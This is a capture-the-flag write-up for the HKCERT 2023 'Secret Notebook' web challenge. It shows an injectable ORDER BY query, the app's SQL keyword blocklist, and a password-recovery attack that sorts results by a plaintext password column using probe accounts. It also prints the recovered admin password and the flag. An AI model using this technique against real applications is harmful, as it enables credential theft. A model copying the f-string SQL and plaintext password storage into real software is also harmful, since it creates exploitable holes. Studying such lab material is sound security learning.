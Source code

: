 # Secret Notebook

by looking into the `app/app.py`

we can see the function `doGetPublicNotes(column, ascending)` is a bit SUS

```python
def doGetPublicNotes(column, ascending):
    connector = getConnector()
    cursor = connector.cursor()
    if column and not isInputValid(column):
        abort(403)
    if ascending  != "ASC":
        ascending = "DESC"
    cursor.execute(f"SELECT username, publicnote FROM users ORDER BY {column} {ascending};") <---
    results = []
    for row in cursor.fetchall():
        results.append({'username':row[0],
        'publicnote':row[1]})
    cursor.close()
    connector.close()
    return results
```

while the other functions use `PreparedStatement` to prevent `SQL Injection` <br/>
the above function `doGetPublicNotes` uses `String Concatenation` to construct its query

this give us a chance to do `SQL Injection`

however, I have no ideas on how to bypass those filters🥲

```python
def isInputValid(untrustedInput: str) -> bool:
    if "'" in untrustedInput \
        or "\"" in untrustedInput \
        or ";"  in untrustedInput \
        or "/"  in untrustedInput \
        or "*"  in untrustedInput \
        or "-"  in untrustedInput \
        or "#"  in untrustedInput \
        or "select"  in untrustedInput.lower() \
        or "insert"  in untrustedInput.lower() \
        or "update"  in untrustedInput.lower() \
        or "delete"  in untrustedInput.lower() \
        or "where"  in untrustedInput.lower() \
        or "union"  in untrustedInput.lower() \
        or "sleep"  in untrustedInput.lower() \
        or "secretnote"  in untrustedInput.lower() :
        return False
    return True
```

therefore, i will use another way to solve this challenge <br/>
~~so why am i writing these stuffs~~

## Real Writeup

we know that the `Administrator` 's password is in `16 random digits`

<details>
<summary>init() in app.py</summary>

```python
def init():
    connector = getConnector()
    cursor = connector.cursor()
    digits = string.digits
    password = ''.join(secrets.choice(digits) for i in range(16))
    cursor.execute(f"INSERT INTO users (username, password, publicnote, secretnote) VALUES ('{'Administrator'}','{password}','{'Welcome! I am admin and I hope you are having fun.'}', '{os.environ['FLAG']}') ON DUPLICATE KEY UPDATE password = '{password}';")
    connector.commit()
    cursor.close()
    connector.close()
```

</details>

since the `user` table store `password` in plaintext (~~BAD, DONT DO THIS~~) <br/>
we can require the server to return public notes ordered by users' (and admin's) passwords <br/>

by investigating the website source, it can be easily seen that a function `retrievePublicNotes()` is bind to the button `Retrieve Public Notes`

<details>
<summary>retrievePublicNotes()</summary>

![](img/1.png)

```js
function retrievePublicNotes() {
    // Assuming you have an endpoint called 'publicNote'
    fetch('/note?noteType=public&column=username&ascending=ASC')
    .then(response => response.json())
    .then(data => {
        var div = document.getElementById("note");
        div.innerHTML = ""; // Clear previous notes
        var table = document.createElement('table');

        var headerRow = document.createElement('tr');

        var usernameHeader = document.createElement('th');
        usernameHeader.textContent = 'Username';
        headerRow.appendChild(usernameHeader);

        var publicNoteHeader = document.createElement('th');
        publicNoteHeader.textContent = 'Public Note';
        headerRow.appendChild(publicNoteHeader);

        table.appendChild(headerRow);
        data.content.forEach(function(item) {
            var row = document.createElement('tr');

            var usernameCell = document.createElement('td');
            usernameCell.textContent = escape(item.username);
            row.appendChild(usernameCell);

            var publicNoteCell = document.createElement('td');
            publicNoteCell.textContent = escape(item.publicnote);
            row.appendChild(publicNoteCell);

            table.appendChild(row);
        });
        div.appendChild(table);

    })
    .catch(error => console.error('Error:', error));
}
```

</details>

modify it to make it sort in `password` instead of `username`

```js
function retrievePublicNotesOrderByPassword() {
    // Assuming you have an endpoint called 'publicNote'
    fetch('/note?noteType=public&column=password&ascending=ASC')
    .then(response => response.json())
    .then(data => {
        var div = document.getElementById("note");
        div.innerHTML = ""; // Clear previous notes
        var table = document.createElement('table');

        var headerRow = document.createElement('tr');

        var usernameHeader = document.createElement('th');
        usernameHeader.textContent = 'Username';
        headerRow.appendChild(usernameHeader);

        var publicNoteHeader = document.createElement('th');
        publicNoteHeader.textContent = 'Public Note';
        headerRow.appendChild(publicNoteHeader);

        table.appendChild(headerRow);
        data.content.forEach(function(item) {
            var row = document.createElement('tr');

            var usernameCell = document.createElement('td');
            usernameCell.textContent = escape(item.username);
            row.appendChild(usernameCell);

            var publicNoteCell = document.createElement('td');
            publicNoteCell.textContent = escape(item.publicnote);
            row.appendChild(publicNoteCell);

            table.appendChild(row);
        });
        div.appendChild(table);

    })
    .catch(error => console.error('Error:', error));
}
```

paste the above function into `console` of your browser <br/>
and paste the below button into `elements` to make things easier 


```html
<button onclick="retrievePublicNotesOrderByPassword()">Order by password</button>
```

<details>
<summary>screenshot</summary>

![](img/2.png)

</details>

signup two accounts called `0000000000000000` and `9999999999999999` with their `passwords` same as their username

after pressing `Order by password` <br/>
we can see that the position of `Administrator` is between them <br/>
so the password of `Administrator` must be greater than `0000000000000000` but less than `9999999999999999`

so, by signing up accounts and locating the interval where `Administrator` drops in <br/>
we can determine the exact password of `Administrator`

<details>
<summary>screenshot</summary>

![](img/3.png)

</details>

keep signing up accounts is **toooooo** tedious <br/>
so I write a script to do this

https://github.com/STC-STEM/hkcert23ctf-writeups/tree/main/secret-notebook/solve.py

<details>
<summary>screenshots</summary>

![](img/4.png)
![](img/5.png)
![](img/6.png)

</details>

lastly, we get the following order in public notes

![](img/7.png)

from this order, we can tell that the password of `Administrator` could be either `0557192864287806` or `0557192864287807` (possibly the one with larger value) <br/>
in my case, it is `0557192864287807` (may be different from yours)

login with username `Administrator` and the password you gained <br/>
click `Retrieve Secret Notes` <br/>
you will get the flag

![](img/8.png)

flag: hkcert23{17_15_n07_50_53cr37_4f73r_4ll}